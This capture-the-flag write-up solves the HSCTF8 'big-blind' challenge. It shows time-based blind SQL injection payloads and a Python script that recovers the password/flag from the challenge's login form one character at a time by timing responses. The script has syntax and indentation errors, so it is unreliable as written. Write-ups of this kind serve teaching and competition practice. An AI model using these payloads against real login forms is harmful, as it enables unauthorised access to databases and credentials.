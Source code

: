 # HSCTF8 - big-blind

- Write-Up Author: Wendy \[[MOCTF](https://www.facebook.com/MOCSCTF)\]

- Flag:**flag{any_info_is_good_info}**
## **Question:**
big-blind

![img](./img/1.png)

## Write up:

The website is simple and just a login page. When you input some characters like ', it return 500 Internal Server Error. It's SQL injection challenge. 

![img](./img/2.png)


First, I use the comment symbol and time-based SQL injection payload to discover the DB table and password length.
```
admin' union select 1,2 from users #

admin' union select 1,2 from users where user='' #

admin' union select 1,2 from users where pass='' #

admin' and IF(1=(SELECT 1 FROM users WHERE Length(pass) = 27),sleep(10),0) #

```

Since the password is long and hard to guess manually. I wrote a script to guess the whole password. Finally, we see the flag is the password.

```
#!/usr/bin/env python3
import requests
import sys

def blind(query):
    url = "https://big-blind.hsc.tf/"
    response = requests.post(url, data={"user":"" +query+ ",sleep(5),0) #","pass":""})
    
    if(response.elapsed.total_seconds()>3):
    print query
    return 'Found'

    return response

keyspace = 'abcdefghijklmnopqrstuvwxyzABCDEFGHIJKLMNOPQRSTUVWXYZ0123456789!@#$^&*()-=+'

query_left_side = "admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE '"
flag = ""
while True:
    for x in range(1,28):
        print x
        for k in keyspace:
        # query = admin' and IF(1=(SELECT 1 FROM users WHERE pass LIKE 'flag%'),sleep(10),0) #
        query = query_left_side + flag + k + "%')"
        response = blind(query)

        if response == 'Found':
            flag += k
            break

        if k == '+':
            flag += '_'

```

![img](./img/3.png)

>flag{any_info_is_good_info}
